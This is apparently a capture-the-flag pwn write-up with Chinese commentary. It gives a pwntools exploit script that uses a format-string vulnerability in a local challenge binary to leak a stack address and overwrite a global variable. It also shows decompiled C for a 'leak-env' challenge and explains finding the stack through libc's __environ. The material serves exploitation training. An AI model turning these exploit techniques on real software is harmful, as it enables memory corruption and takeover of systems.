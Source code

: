```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')

io = process('./fmt2')
elf = ELF('./fmt2')

def exec_fmt(payload):
    io.recvuntil('content:')
    io.sendline(payload)
    return io.recvline(timeout=1)

auto = FmtStr(exec_fmt)
elf.address = auto.leak_stack(43) - elf.sym.main

auto.write(elf.sym.a, 0xdeadbeef)
auto.execute_writes()

io.interactive()

```

### [Week2] leak-env

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *buf[2]; // [rsp+0h] [rbp-10h] BYREF

  buf[1] = (void *)__readfsqword(0x28u);
  bufinit(argc, argv, envp);
  printf("Here's your gift: %p\n", &printf);
  puts("You have a chance to arbitrary read 8 bytes.");
  printf("Where do you want to read?");
  __isoc99_scanf("%p", buf);
  printf("Here you are: ");
  write(1, buf[0], 8uLL);
  putchar(10);
  puts("Now show me your magic.");
  printf("Where do you want to place it?");
  __isoc99_scanf("%p", buf);
  puts("Now place it.");
  read(0, buf[0], 0x30uLL);
  printf("Good luck!");
  return 0;
}
```

题目提供了 libc 的地址，需要得到栈的地址来实现栈溢出。这里通过 libc 中的 \_\_environ 环境变量来得到栈地址。

\_\_environ 是一个全局变量，他是一个环境变量数组，其指向的数据在栈上，可以通过这种方法得到栈的地址。
